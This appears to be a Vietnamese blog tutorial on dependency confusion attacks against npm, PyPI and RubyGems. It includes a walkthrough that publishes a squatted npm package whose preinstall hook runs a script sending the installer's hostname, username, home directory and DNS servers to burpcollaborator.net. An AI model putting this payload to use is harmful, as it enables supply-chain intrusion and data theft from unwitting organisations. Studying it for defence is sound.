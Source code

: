 > Bài viết này được dịch và viết theo ý hiểu của người viết thông qua nhiều nguồn

Kể từ khi bạn mới học code Python, bạn có sử dụng mấy package rất tiện lợi install trên `pip` không

```bash
pip install <package_name>
```

Như mình thì mình cứ thế install, không cần biết là package đó có đủ tin tưởng hay không, cũng chẳng thèm đọc source của cái package đó nữa, cứ install được việc của mình đã :D, đến khi mình đọc được cái bài viết [này](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610), thì mình vẫn cứ tin tưởng package đó thôi, vẫn chẳng mảy may suy nghĩ gì :frowning: 

Một số ngôn ngữ lập trình (như Python, nodejs, Ruby, ...), đi kèm với một phương pháp cực kỳ dễ dàng để cài đặt package cho các project của bạn. Những package này thường nằm trên các repositories public, nơi bất kỳ ai cũng có thể tự do tải lên các package cho người khác sử dụng.

- Python có `pip` https://pypi.org/
- Node có `npm` https://www.npmjs.com/package
- RubyGem có `gem` https://rubygems.org/

Cách cài đặt cực kỳ dễ dàng, như mình đã nói ở trên, chỉ cần sử dụng câu lệnh `npm install <package_name>` là có thể kéo code từ registry public trên https://www.npmjs.com/package về để bạn sử dụng rồi.

Ơ vậy thì khi tải xuống và sử dụng một package từ bất kỳ nguồn nào trong số này, về cơ bản bạn đang tin tưởng tác giả của nó để chạy code trên máy của bạn. Vì vậy, sự tin tưởng mù quáng này có thể bị khai thác bởi những người có ý đồ xấu hay không?

![image.png](https://images.viblo.asia/04bca92f-2b99-458d-bd39-0cd80df05ac2.png)

Tất nhiên là có thể

Không có package hosting services nào có thể đảm bảo rằng tất cả code mà người dùng tải lên đều không có phần mềm độc hại. [Nghiên cứu trước đây](https://incolumitas.com/2016/06/08/typosquatting-package-managers/) đã chỉ ra rằng **typosquatting** - một cuộc tấn công tận dụng các phiên bản typo'd của các tên package phổ biến - có thể cực kỳ hiệu quả trong việc truy cập vào các PC ngẫu nhiên trên toàn thế giới.

# Ideal
Trong bài phân tích hack Paypal vào năm  2020, Justin Gardner (@Rhynorater) và Alex Birsan (@alex.birsan) đã chia sẻ một chút thú vị về source code nodejs được tìm thấy trên GitHub của Paypal.

Code Paypal sử dụng nội bộ, và bất giờ trong file `package.json` (là một file chứa tên các dependencies, sử dụng để install packages cho nhanh) của nó, dường như chứa một sự pha trộn của các public và private dependencies - các package công khai từ NPM, cũng như các gói được phát triển private (internal) - có thể được phát hành nội bộ bởi Paypal.   
Những cái tên này không tồn tại trên public npm registry vào thời điểm đó.

![image.png](https://images.viblo.asia/6221a157-71bb-427a-b21f-bc532c6a2ac0.png)

Vậy thì ý tưởng được đặt ra là, nếu mình tạo 1 package với tên giống với package mà Paypal code riêng thì sao, sau đó public lên registry của npm, vậy thì điều gì sẽ xảy ra. 

- Điều gì sẽ xảy ra nếu mã độc được tải lên NPM dưới những cái tên này? Có thể một số project nội bộ của PayPal thay vì kéo từ private registry lại thực hiện kéo code từ public registry, sau đó thực thi code độc hại đó :o 
- Các nhà phát triển, hoặc thậm chí các hệ thống tự động, sẽ bắt đầu chạy code bên trong các thư viện?
- Nếu điều này hoạt động, chúng ta có thể nhận được một khoản bug bounty từ nó?
- Liệu cuộc tấn công này cũng có tác dụng chống lại các công ty khác?

# Thử nghiệm
> Ở đây mình ví dụ với npm, các package khác tương tự, tuỳ theo spec của các ngôn ngữ đó

Đầu tiên các bạn cần đọc được nội dung của file `package.json` của project đó (có thể public trên github, trang web cho phép đọc file `package.json`,...), sau đó bạn có thể kiểm tra toàn bộ package trong project đó hiện tại có public trên npm hay không, bằng cách search tên package đó trên https://www.npmjs.com/, hoặc cũng có thể sử dụng công cụ https://github.com/visma-prodsec/confused cho nhanh cũng được

![image.png](https://images.viblo.asia/8bcd1cdf-1795-494f-b5e0-d3ef95f6bc7d.png)

Phát hiện ra package `spr-svg-loaders` không có trên public registry của npmjs

## Creating Malicious Packages (NPM)
Thực hiện đăng ký package `spr-svg-loaders` lên public NPM registry

- Cài đặt `npm`
    ```bash
    sudo apt install npm
    ```
- Đăng ký account tại https://www.npmjs.com/signup
- Login account npm với lệnh
    ```bash
    npm login
    ```
    ![image.png](https://images.viblo.asia/9e28e962-bcf4-4027-9aca-6b29912c8e3e.png)
- Tạo folder `spr-svg-loaders`
- Tạo NPM package
    ```bash
    cd spr-svg-loaders
    npm init
    ```
    Ở đây các bạn cứ ấn enter thôi, thích điền thông tin nào vào cũng được
- Chỉnh sửa lại file package.json  
    ![image.png](https://images.viblo.asia/af63e695-ccc2-43c6-938e-31302e099dd6.png)  
    NPM hỗ trợ preinstall, điều này giúp cho ai kéo package này về đều thực thi lệnh `node index.js` 
- Tạo file `index.js` với nội dung
    ```js:index.js
    //author:- whitehacker003@protonmail.com
    const os = require("os");
    const dns = require("dns");
    const querystring = require("querystring");
    const https = require("https");
    const packageJSON = require("./package.json");
    const package = packageJSON.name;

    const trackingData = JSON.stringify({
        p: package,
        c: __dirname,
        hd: os.homedir(),
        hn: os.hostname(),
        un: os.userInfo().username,
        dns: dns.getServers(),
        r: packageJSON ? packageJSON.___resolved : undefined,
        v: packageJSON.version,
        pjson: packageJSON,
    });

    var postData = querystring.stringify({
        msg: trackingData,
    });

    var options = {
        hostname: "burpcollaborator.net", //replace burpcollaborator.net with Interactsh or pipedream
        port: 443,
        path: "/",
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
            "Content-Length": postData.length,
        },
    };

    var req = https.request(options, (res) => {
        res.on("data", (d) => {
            process.stdout.write(d);
        });
    });

    req.on("error", (e) => {
        // console.error(e);
    });

    req.write(postData);
    req.end();
    ```
- Xong phần code, bây giờ chỉ cần public package này lên public registry npmjs là xong
    ```bash
    npm publish
    ```
    ![image.png](https://images.viblo.asia/dc30dd00-cd18-49fe-91e0-0157da184721.png)  
    Nó sẽ tương tự thế này, nếu bạn nào gặp lỗi 403, thì có thể bạn đang publish version thấp hơn, hoặc bạn không có quyền với cái package đó.   
    Thành công thì bạn sẽ nhận được 1 cái tương tự thế này https://www.npmjs.com/package/spr-svg-loaders
## Kết quả
![image.png](https://images.viblo.asia/d715ce32-80cb-4e3a-8e40-eece7e41d7ee.png)

Ngồi chờ 1 lát là thấy có máy kéo package này về, bạn có thể xem thông tin như hostname, full path, username, ... Vậy bạn có thể RCE đến máy mà install cái package này rồi :cold_sweat: 

Theo Alex Birsan, anh ấy đã scan và lấy được hàng trăm package private không có trên public registry, và anh ấy thử nghiệm tấn công và tỷ lệ thành công đáng kinh ngạc. 
> Đọc thêm tại : https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

# Nguyên nhân
Vậy nguyên nhân từ đâu mà ra, có thể cần tới bài viết nữa để có thể tìm nguyên nhân sâu ra gốc rễ của vấn đề này, hẹn các bạn vào bài thứ 2. See you :blush: 

# Tham khảo
- https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/
- https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610
- https://systemweakness.com/rce-via-dependency-confusion-e0ed2a127013